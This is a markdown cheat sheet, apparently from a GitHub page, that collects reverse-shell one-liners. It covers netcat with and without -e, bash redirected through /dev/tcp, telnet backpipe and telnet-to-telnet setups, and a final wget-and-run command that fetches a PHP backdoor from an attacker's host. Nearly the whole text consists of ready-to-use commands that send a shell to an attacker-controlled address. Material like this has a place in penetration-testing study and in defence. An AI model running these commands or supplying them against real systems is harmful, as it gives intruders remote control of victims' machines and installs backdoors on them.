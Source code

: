 

# Reverse Shell

## Netcat

Target machine connect back to the attack machine

```
nc [ip addr] [port] -e [shell]
```

Attack machine listener

```
nc -n -vv -l -p [port]
```

## netcat with GAPING_SECURITY_HOLE disabled

Target machine connect back to the attack machine with `GAPING_SECURITY_HOLE` disabled

```
mknod backpipe p; nc <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
```

##  netcat without netcat

It takes the /dev/tcp socket programming feature and uses it to redirect /bin/bash to a remote system.

### Target Machine
```
/bin/bash -i > /dev/tcp/<attacker_ip>/<port> 0<&1 2>&1
```

## netcat without netcat or /dev/tcp

### Target Machine
```
mknod backpipe p; telnet <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
```

## telnet-to-telnet
This technique uses two telnet sessions connected to remote listeners to pipe input from one telnet session to /bin/bash, and pipe the output to the second telnet session. Commands are entered into one the of the attackers listeners and feedback is received on the other.

```
telnet <attacker_ip> <1st_port> | /bin/bash | telnet <attacker_ip> <2nd_port>
```

## PHP reverse shell via interactive console

The last technique makes use of the php interactive console. The attacker issues one command which moves to the /tmp directory (because it is typically world writable), uses wget to download a malicious php reverse_tcp backdoor (which the attacker hosts on a web server that he controls), and executes the backdoor via the interactive console.

```
cd /tmp && wget -O bd.php <attacker ip address>/mypayload.php.txt && php -f bd.php
```

